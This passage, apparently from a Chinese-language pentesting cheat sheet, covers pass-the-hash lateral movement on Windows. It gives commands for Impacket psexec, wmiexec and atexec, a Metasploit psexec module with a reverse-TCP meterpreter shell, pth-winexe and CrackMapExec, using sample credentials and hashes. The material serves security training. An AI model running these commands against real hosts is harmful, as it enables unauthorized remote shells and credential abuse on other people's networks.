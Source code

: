         Psexec.py 允许你在远程 Windows 系统上执行进程，复制文件，并返回处理输出结果。此外，它还允许你直接使用完整的交互式控制台执行远程 shell 命令（不需要安装任何客户端软件）。
        ```
        ./psexec.py test/Administrator:Abcd1234@192.168.1.100
        ```

    - Wmiexec.py

        它会生成一个使用 Windows Management Instrumentation 的半交互式 shell，并以管理员身份运行。你不需要在目标服务器
        ```
        ./wmiexec.py test/Administrator:Abcd1234@192.168.1.100
        ```

    - Atexec.py

        通过 Task Scheduler 服务在目标系统上执行命令，并返回输出结果。
        ```
        ./atexec.py test/Administrator:Abcd1234@192.168.1.100 whoami
        ```

- metasploit

    目标主机的 Vista 之后的机器，所以只能使用 administrator 用户进行攻击。
    ```bash
    use exploit/windows/smb/psexec # 或 use exploit/windows/smb/psexec_psh
    set rhosts [ip]
    set smbuser [user]          # 域中的 PTH 这里不需要写域前缀
    set smbpass [password]      # 例如: 00000000000000000000000000000000:c780c78872a102256e946b3ad238f661

    set payload windows/meterpreter/reverse_tcp
    set lhost [ip]

    # 工具的参数需要填写固定格式 LM hash:NT hash，可以将 LM hash 填 0(LM hash 可以为任意值)，即 00000000000000000000000000000000:NT hash。
    exploit
    ```

- pth-winexe

    kali 自带的 PTH 套件每个工具都针对 WIN 下相应的 EXE 文件,如使用 Pth-winexe 可以借助哈希执行程序得到一个 cmdshell:
    ```bash
    export SMBHASH=xxxxxx...:xxxx...
    pth-winexe -U administrator% //target-ip cmd
    # no password 就需要替换成空的 LM hash 加密值: aad3b435b51404eeaad3b435b51404ee
    ```

- [byt3bl33d3r/CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) - A swiss army knife for pentesting networks
    ```bash
    cme smb x.x.x.x -u administrator -H xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx -x whoami
    ```

- [cube0x0/SharpMapExec](https://github.com/cube0x0/SharpMapExec) - c#版本的cme
- [ShawnDEvans/smbmap](https://github.com/ShawnDEvans/smbmap) - SMBMap is a handy SMB enumeration tool
